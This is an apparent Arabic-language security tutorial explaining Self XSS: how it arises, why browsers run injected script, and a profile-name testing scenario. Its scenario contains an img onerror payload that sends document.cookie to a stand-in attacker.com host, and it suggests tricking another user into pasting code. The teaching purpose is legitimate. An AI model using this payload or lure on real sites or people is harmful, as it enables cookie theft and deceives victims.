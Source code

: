 
## فهم الخطوة: اختبار ثغرة Self XSS

### ما المقصود؟
ال**Self XSS** هي نوع من ثغرات Cross-Site Scripting (XSS) حيث يقوم المستخدم بحقن شيفرة JavaScript ضارة في نقطة إدخال يتحكم بها (مثل حقل نموذج، معلمة URL، أو واجهة إدخال في التطبيق)، وتُنفذ الشيفرة في متصفحه الخاص دون التأثير على مستخدمين آخرين. تُعتبر هذه الثغرة محدودة التأثير لأنها لا تُخزن في قاعدة البيانات (مثل Stored XSS) ولا تُنقل عبر الخادم لتؤثر على الآخرين (مثل Reflected XSS). غالبًا ما تحدث في سياقات مثل:
- حقول إدخال تُعالج بـ JavaScript في جانب العميل (Client-Side) وتُعرض مباشرة في DOM.
- معلمات URL أو أجزاء منها (مثل `location.hash`) تُستخدم ديناميكيًا في الصفحة.
- واجهات تحرير المحتوى أو الإعدادات الشخصية التي تعرض الإدخالات دون تنظيف كافٍ.
الهدف من اختبار Self XSS هو تحديد نقاط الإدخال التي تسمح بتنفيذ JavaScript في متصفح المستخدم، مع تقييم إمكانية تصعيد الثغرة إلى هجمات أكثر خطورة (مثل دمجها مع هجمات هندسة اجتماعية أو ثغرات أخرى).

### لماذا يعمل؟
- **معالجة الإدخالات في العميل**: التطبيقات التي تُعالج إدخالات المستخدم مباشرة في JavaScript (مثل `innerHTML`، `eval()`، أو `document.write()`) دون تنظيف تسمح بتنفيذ الشيفرة.
- **عدم التحقق من الإدخال**: عدم وجود فلاتر أو تشفير للإدخالات في DOM يؤدي إلى تنفيذ JavaScript.
- **دعم المتصفحات**: المتصفحات تُنفذ JavaScript تلقائيًا عند إدراجه في وسوم (`<script>`، `<img>`)، أحداث (`onerror`، `onload`)، أو بروتوكولات (`javascript:`).
- **التفاعل المباشر**: Self XSS تعتمد على إدخال المستخدم الخاص، مما يجعلها غير مرصودة من الفلاتر الخاصة بالخادم.
- **إمكانية التصعيد**: على الرغم من محدوديتها، يمكن استغلال Self XSS في هجمات هندسة اجتماعية (مثل إقناع المستخدم بإدخال شيفرة ضارة) أو دمجها مع ثغرات أخرى (مثل CSRF).

### كيف يتم الاستغلال؟
- يقوم المستخدم (أو المهاجم في سياق اختبار الأمان) بإدخال شيفرة JavaScript في نقطة إدخال مثل حقل نموذج، معلمة URL، أو إعدادات المستخدم.
- تُصمم الحقنة لتنفيذ شيفرة في متصفح المستخدم عند عرض الإدخال، إما تلقائيًا (مثل `<script>`) أو عند التفاعل (مثل `onclick`).
- تُستخدم الشيفرة لأغراض اختبار مثل:
  - تنفيذ تنبيه لتأكيد الثغرة (`alert('XSS')`).
  - استخراج بيانات حساسة مثل `document.cookie` أو `localStorage`.
  - التلاعب بمحتوى الصفحة أو إعادة التوجيه.
- يتم مراقبة استجابة المتصفح (مثل Console، الشبكة، أو DOM) لتأكيد التنفيذ:
  - **نجاح (True)**: الشيفرة تُنفذ (مثل ظهور تنبيه أو إرسال بيانات إلى خادم خارجي).
  - **فشل (False)**: لا يتم التنفيذ بسبب فلاتر، تشفير، أو قيود CSP.
- قد يُستخدم المهاجم هجمات هندسة اجتماعية لإقناع المستخدم بإدخال الشيفرة (مثل عبر تعليمات مضللة في منتدى).

### السناريو
لنفترض أنك تختبر موقعًا إلكترونيًا يحتوي على حقل لتحرير الاسم في صفحة الملف الشخصي. لاحظت أن إدخال `<script>alert('XSS')</script>` في حقل الاسم يؤدي إلى ظهور تنبيه عند عرض الاسم في الصفحة، ولكن هذا يؤثر عليك فقط (وليس على مستخدمين آخرين). تريد الآن اختبار إمكانية تنفيذ شيفرة مثل `<img src=x onerror=fetch('http://attacker.com/log?c='+document.cookie)>` لاستخراج ملفات تعريف الارتباط. إذا تلقى خادمك البيانات أو نُفذت الشيفرة، فهذا يؤكد وجود ثغرة Self XSS. قد تحاول أيضًا تصعيد الثغرة بإقناع مستخدم آخر بإدخال شيفرة مماثلة عبر تعليمات مضللة.

---
